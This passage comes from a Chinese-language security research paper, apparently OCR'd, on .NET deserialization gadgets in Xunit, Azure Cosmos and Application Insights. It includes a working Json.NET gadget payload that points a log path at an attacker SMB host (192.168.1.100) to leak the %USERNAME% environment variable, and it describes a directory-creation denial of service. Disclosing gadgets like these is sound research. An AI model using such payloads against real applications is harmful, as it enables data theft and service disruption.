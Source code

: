 代码段 52 Xunit1AssemblyInfo 类

在 \[1\] 处，可以通过构造函数设置 `AssemblyFileName` 成员。

在 \[2\] 处，定义了 AssemblyPath 属性。它返回 AssemblyFileName 成员。

根据这一点，攻击者能够完全控制传递给 `Directory.SetCurrentDirectory` 方法的路径。当通过 gadget 传递 `C:\Users\Public\test` 路径时，当前路径将被设置为 `C:\Users\Public`（攻击者的路径被传递给 `Path.GetDirectoryName` 方法）。

#### 2.6 Microsoft Azure Cosmos – QueryPartitionProvider

此 gadget 在章节“不安全的序列化 – `Azure.Core QueryPartitionProvider` 序列化触发反序列化”的描述中，利用了本文后续部分描述的技术。

#### 2.7 Microsoft Application Insights - FileDiagnosticsTelemetryModule

目标类： `Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileDiagnosticsTelemetryModule`

适用的序列化器：`Json.Net`、`XamlReader`、`JavaScriptSerializer`、`MessagePack` 和可能的其他序列化器。

适用的 .NET 版本：.NET Framework（未验证 .NET>=5）

最新测试版本：2.21.0

效果：可以实现两种效果：

-   如果应用程序能够与攻击者的服务器建立 SMB 连接或攻击者能够枚举目标上的本地目录，则可以泄漏环境变量。
-   如果目标应用程序以 `SYSTEM/local admin` 特权运行，则可以通过创建目录实现拒绝服务。

小工具（Json.NET）：

```plain
{ 
"$type":"Microsoft.ApplicationInsights.Extensibility.Implementation.Tracing.FileD 
iagnosticsTelemetryModule, Microsoft.ApplicationInsights, Version=2.21.0.429,  
Culture=neutral, PublicKeyToken=31bf3856ad364e35", 
    "LogFilePath":"\\\\192.168.1.100\\%USERNAME%", 
    "LogFileName":"C:\\\\Users\\\\Public\\\\test\\\\test.txt" 
}
```

代码段 53 FileDiagnosticsTelemetryModule gadget

描述： `FileDiagnosticsTelemetryModule` 实现了一个不重要的公共无参数构造函数，我们的分析不应关注此构造函数。我们应该专注于 LogFileName 和 LogFilePath 属性的设置器：

```plain
public string LogFilePath 
{ 
    get 
    { 
        return this.logFilePath; 
    } 
    set 
    { 
        string filePath = Environment.ExpandEnvironmentVariables(value); // [1] 
        if (this.SetAndValidateLogsFolder(filePath, this.logFileName)) // [2] 
        { 
            this.logFilePath = filePath; 
        } 
    } 
} 

public string LogFileName 
{ 
    get 
    { 
        return this.logFileName; 
    } 
    set 
```